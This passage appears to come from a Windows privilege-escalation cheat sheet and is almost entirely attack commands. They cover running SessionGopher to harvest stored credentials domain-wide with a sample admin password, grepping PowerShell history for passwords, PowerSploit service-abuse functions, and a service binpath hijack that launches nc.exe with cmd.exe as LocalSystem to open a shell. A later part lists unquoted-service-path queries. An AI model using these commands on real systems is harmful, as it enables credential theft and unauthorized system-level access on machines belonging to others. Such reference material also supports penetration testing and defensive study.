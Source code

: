 ```bat
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### in Powershell history

```bat
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

## Services

### Tools

```bat
- SeatBelt.exe
- SharpUp.exe

- PowerSploit
Get-ServiceDetail
Get-ModifiableService | more
Invoke-ServiceAbuse

Get-ModifiableServiceFile | more
Write-ServiceBinary
```

### Manual exploit Binary Path

```bat
sc qc upnphost
sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost
```

### Unquoted Service Paths

```bat
# Using PowerSploit
Get-ServiceUnquoted
Write-ServiceBinary -Name "GDCAgent' -Path "C:\GDCAgent.exe"

# Using WMIC
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

# Using sc
sc query
sc qc service name

```
